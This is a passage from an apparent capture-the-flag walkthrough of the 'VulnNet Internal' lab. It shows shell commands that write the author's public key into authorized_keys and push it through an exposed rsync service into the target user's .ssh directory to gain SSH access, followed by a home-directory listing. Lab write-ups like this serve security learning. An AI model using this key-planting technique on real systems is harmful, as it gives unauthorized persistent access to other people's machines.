 <p>Created <code>authorized_keys</code>.</p>

```bash
:~/VulnNetInternal/files/sys-internal/.ssh# touch authorized_keys
```

<p>Stored <code>VulnNetInternalRSA.pub</code> in <code>authorized_keys</code>.</p>

```bash
:~/VulnNetInternal/files/sys-internal/.ssh# cat VulnNetInternalRSA.pub > authorized_keys
```

<p>Provided user read, write, and execute permissions.</p> 

```bash
:~/VulnNetInternal/files/sys-internal/.ssh# chmod 700 authorized_keys
```

<p>Used <code>rsync</code> again.</p>

```bash
~/VulnNetInternal/files/sys-internal# rsync -av ~/VulnNetInternal/files/sys-internal/.ssh/authorized_keys rsync://rsync-connect@Target_IP:873/files/sys-internal/.ssh
```

```bash
:~/VulnNetInternal/files/sys-internal# ls -la
total 108
drwxr-xr-x 18 ubuntu ubuntu 4096 Feb  6  2021 .
drwxr-xr-x  3 root   root   4096 Feb  1  2021 ..
lrwxrwxrwx  1 root   root      9 Feb  1  2021 .bash_history -> /dev/null
-rw-r--r--  1 ubuntu ubuntu  220 Feb  1  2021 .bash_logout
-rw-r--r--  1 ubuntu ubuntu 3771 Feb  1  2021 .bashrc
drwxrwxr-x  8 ubuntu ubuntu 4096 Feb  2  2021 .cache
drwxrwxr-x 14 ubuntu ubuntu 4096 Feb  1  2021 .config
drwx------  3 ubuntu ubuntu 4096 Feb  1  2021 .dbus
drwx------  2 ubuntu ubuntu 4096 Feb  1  2021 Desktop
-rw-r--r--  1 ubuntu ubuntu   26 Feb  1  2021 .dmrc
drwxr-xr-x  2 ubuntu ubuntu 4096 Feb  1  2021 Documents
drwxr-xr-x  2 ubuntu ubuntu 4096 Feb  1  2021 Downloads
drwx------  3 ubuntu ubuntu 4096 Feb  1  2021 .gnupg
drwxrwxr-x  3 ubuntu ubuntu 4096 Feb  1  2021 .local
drwx------  5 ubuntu ubuntu 4096 Feb  1  2021 .mozilla
drwxr-xr-x  2 ubuntu ubuntu 4096 Feb  1  2021 Music
drwxr-xr-x  2 ubuntu ubuntu 4096 Feb  1  2021 Pictures
-rw-r--r--  1 ubuntu ubuntu  807 Feb  1  2021 .profile
drwxr-xr-x  2 ubuntu ubuntu 4096 Feb  1  2021 Public
lrwxrwxrwx  1 root   root      9 Feb  2  2021 .rediscli_history -> /dev/null
drwxrwxr-x  2 ubuntu ubuntu 4096 Feb  6  2021 .ssh
-rw-r--r--  1 ubuntu ubuntu    0 Feb  1  2021 .sudo_as_admin_successful
drwxr-xr-x  2 ubuntu ubuntu 4096 Feb  1  2021 Templates
drwx------  4 ubuntu ubuntu 4096 Feb  2  2021 .thumbnails
-rw-------  1 ubuntu ubuntu   38 Feb  6  2021 user.txt
drwxr-xr-x  2 ubuntu ubuntu 4096 Feb  1  2021 Videos
-rw-------  1 ubuntu ubuntu   61 Feb  6  2021 .Xauthority
-rw-r--r--  1 ubuntu ubuntu   14 Feb 12  2018 .xscreensaver
-rw-------  1 ubuntu ubuntu 2546 Feb  6  2021 .xsession-errors
-rw-------  1 ubuntu ubuntu 2546 Feb  6  2021 .xsession-errors.old
:~/VulnNetInternal/files/sys-internal# 
```

